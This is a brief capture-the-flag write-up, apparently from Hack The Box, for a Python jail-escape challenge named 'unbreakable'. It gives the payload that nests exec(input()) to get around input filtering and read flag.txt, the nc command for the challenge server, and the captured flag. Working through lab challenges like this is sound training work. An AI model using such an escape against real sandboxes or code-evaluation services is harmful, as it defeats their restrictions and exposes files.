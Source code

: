# unbreakable

Think you can escape my grasp? Challenge accepted! 
I dare you to try and break free, but beware, it won't be easy. 
I'm ready for whatever tricks you have up your sleeve!

## Solution

```txt
input
globals

open('flag.txt','r').read

exec(input())

exec(input())
print(open("flag.txt", "r").read())
```

`nc 94.237.50.221 53625`

HTB{3v4l_0r_3vuln??}